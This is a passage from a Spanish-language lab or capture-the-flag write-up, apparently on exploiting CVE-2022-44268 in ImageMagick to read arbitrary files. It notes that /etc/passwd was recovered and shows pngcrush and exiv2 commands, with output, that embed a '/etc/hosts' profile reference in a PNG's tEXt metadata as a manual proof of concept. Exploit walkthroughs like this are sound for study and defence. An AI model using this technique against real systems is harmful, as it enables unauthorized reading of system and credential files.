 Mediante `CyberChef`, descodificaremos el contenido indicado y verificaremos el resultado del archivo `/etc/passwd` del sistema vulnerable.&#x20;

Por lo tanto, tenemos una vía potencial de realizar un `Arbitrary File Read` y obtener archivos del sistema objetivo.

<figure><img src="../../.gitbook/assets/5146_vmware_Opk9IRLVcU.png" alt=""><figcaption></figcaption></figure>

### Manual Exploitation

Por otro lado, podemos realizar la explotación de esta vulnerabilidad manualmente. En el siguiente repositorio de GitHub, se nos muestra un PoC de cómo realizarlo.

{% embed url="https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC" %}

El siguiente procedimiento muestra cómo hemos incrustado el contenido del archivo `/etc/hosts` dentro de los metadatos de una imagen PNG y luego lo hemos verificado.

Utilizamos `pngcrush` para agregar el contenido de `/etc/hosts` en un campo de metadatos `tEXt` dentro de la imagen `image.png.` A través de `exiv2`, verificamos que en los metadatos se ha incrustado correctamente.

```bash
❯ pngcrush -text a "profile" "/etc/hosts" image.png
  Recompressing IDAT chunks in image.png to pngout.png
   Total length of data found in critical chunks            =    177178
   Best pngcrush method        =   6 (ws 15 fm 6 zl 9 zs 0) =    189754
CPU time decode 0.035489, encode 0.323839, other 0.003389, total 0.369960 sec

❯ exiv2 -pS pngout.png
STRUCTURE OF PNG FILE: pngout.png
 address | chunk |  length | data                           | checksum
       8 | IHDR  |      13 | ............                   | 0x35d1dce4
      33 | gAMA  |       4 | ....                           | 0x0bfc6105
      49 | cHRM  |      32 | ..z&..............u0...`..:..  | 0x9cba513c
      93 | bKGD  |       6 | .....                          | 0xf943bb7f
     111 | tIME  |       7 | .......                        | 0x6c86e37e
     130 | IDAT  |  189697 | x...y.-Y....!......7.:...r..v. | 0xf22998a2
  189839 | tEXt  |      37 | date:create.2024-07-08T16:03:1 | 0xe6ff2113
  189888 | tEXt  |      37 | date:modify.2024-07-08T16:03:1 | 0x97a299af
```